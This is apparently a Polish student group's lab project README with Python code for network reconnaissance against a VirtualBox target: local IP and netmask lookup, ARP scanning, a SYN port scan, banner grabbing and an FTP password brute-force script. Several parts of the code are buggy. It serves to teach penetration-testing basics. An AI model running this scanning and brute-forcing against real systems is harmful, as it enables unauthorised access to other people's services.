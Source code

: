 # Projekt-JDD

Grupa w składzie:
- Jerzy Tarasiewicz
- Damian Tomala
- Dorota Gliniak

Grupa podjęła decyzję o tym aby wszystkie 6 zadań były w jednym pliku pod tytułem "project.py".

# Zadanie numer 1:
Ustalić własny IP.
W terminalu wykonaliśmy polecenie (ip a)
Załączniki w postaci screenshotów:
-Zadanie 1 SS1
-Zadanie 1 SS2

# Zadanie numer 2:
Ustalić maskę podsieci.
W terminalu wykonalismy polecenie (ifconfig)
Załączniki w postaci screenshotów:
- Zadanie 2 SS1
- Zadanie 2 SS2

# Zadanie numer 3:
Na podstawie powyższych informacji przeskanować sieć i ustalić adres IP celu.

Otworzyliśmy VBox i sprawdziliśmy MAC adres celu. Po czym ustaliliśmy adres IP celu na podstawie zadania 1 oraz 2.
Załączniki w postaci screenshotów:
- Zadanie 3 SS1
- Zadanie 3 SS2

# Zadanie numer 4:
Ustalić otwarte porty na atakowanej maszynie.

Załączniki w postaci screenshotów:
- Zadanie 4 SS1

# Zadanie numer 5:
Ustalić nazwę oraz wersję oprogramowania dla wszystkich znalezionych usług (banner grabbing).

Załączniki w postaci screenshotów:
- Zadanie 4 SS1

# Zadanie numer 6:
Przeprowadzić atak brute-force na dowolną znalezioną usługę (nie musi się udać).

Załączniki w postaci screenshotów:
- Zadanie 6 SS1



# KOD

################################ 1 - GET LOCAL IP ADDRESS ################################
import socket

def get_local_ip():
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    try:
        s.connect(('10.255.255.255', 1))
        IP = s.getsockname()[0]
    except:
        IP = '127.0.0.1'
    finally:
        s.close()
    return IP

local_ip = get_local_ip()
print(local_ip)

################################ 2 - GET MASK ADDRESS ################################

from pyroute2 import IPRoute
ip = IPRoute()
info = [{'iface': x['index'], 'addr': x.get_attr('IFA_ADDRESS'), 'mask':  x['prefixlen']} for x in ip.get_addr()]

print(info)
a = info[1]

for k, v in a.items():
    if k == 'mask':
        print(v)
        break
masks = {0:'0.0.0.0', 1:'128.0.0.0', 2:'192.0.0.0', 3:'224.0.0.0', 4:'240.0.0.0', 5:'248.0.0.0', 6:'252.0.0.0', 7:'254.0.0.0', 8:'255.0.0.0', 9:'255.128.0.0', 10:'255.192.0.0', 11:'255.224.0.0', 12:'255.240.0.0', 13:'255.248.0.0', 14:'255.252.0.0', 15:'255.254.0.0', 16:'255.255.0.0', 17:'255.255.128.0', 18:'255.255.192.0', 19:'255.255.224.0', 20:'255.255.240.0', 21:'255.255.248.0', 22:'255.255.252.0', 23:'255.255.254.0', 24:'255.255.255.0', 25:'255.255.255.128', 26:'255.255.255.192', 27:'255.255.255.224', 28:'255.255.255.240', 29:'255.255.255.248', 30:'255.255.255.252', 31:'255.255.255.254', 32:'255.255.255.255'}

for index, mask in masks.items():

    if index == v:
        index == mask
        print("netmask: ", mask)
        break

################################ 3 - Looking for target IP ################################


from scapy.all import *
from scapy.layers.inet import IP, TCP, Ether
from scapy.layers.l2 import ARP

for i in range(100, 105):
    ip = "192.168.0.{}".format(i)
    pakiet = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=ip, hwdst="ff:ff:ff:ff:ff:ff")
    dane = srp1(pakiet, timeout=1, verbose=0)
    target_MAC = '08:00:27:89:f6:2e'

    if dane:
        print("adres IP: {}, adres MAC: {}".format(str(dane.psrc), str(dane.hwsrc)))
        if target_MAC == dane.hwsrc:
            print("Target IP: ", str(dane.psrc))
            target_IP = dane.psrc

################################ 4 - Ports scaning ################################

cel = target_IP
pakiet = IP(dst="google.com")/ICMP()/"Projekt"
for port in range(22):
    pakiet = IP(dst=cel)/TCP(dport=[port], flags = "S")
    rec, wrong = sr(pakiet, timeout=1, verbose=0) #timeout - dlugosc zycia, verbose - ilosc wyswietlanych inf zwrotnych 0 - 3
    print(rec)
    if rec:
        usluga = "{}".format(str(str(rec[0]).split(" ")[7][6:]))
        dane = f"Port: {port} otwarty, usluga = {usluga}"
        print(dane)
    else:
        print(f"{port} Port zablokowany")
# print(rec)

################################ 5 - Banner Grabbing ################################

import socket
import sys

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

target = target_IP

for port in range(1, 65000):
    try:
        connection = s.connect((target, port))
        print(f"[+] {target}: port {port} is OPEN")
        s.send("Get banner \r\n".encode())
        response = s.recv((2048)).decode()
        print("Name and version service: ", response)
    except:
#        print(f"[-] {target}: port {port} is CLOSED")
        pass

################################ 6 - Brute Force ################################

import ftplib
users = open("usernames.txt", "r")
# passwords = open("passlist.txt", "r")

passwords = open("testpass.txt", "r") # original password file - passlist.txt

target = target_IP
for user in users:
    for password in passwords:
        print(f"Trying> {user}:{password}")

        try:
            ftp_server = ftplib.FTP()
            ftp_server.connect(target, 21, timeout=2)
            ftp_server.login(user, password)
            print("[+] Login successful.")
            ftp_server.close()
        except Exception as exc:
            print("[-] Brute-force attack failed!")
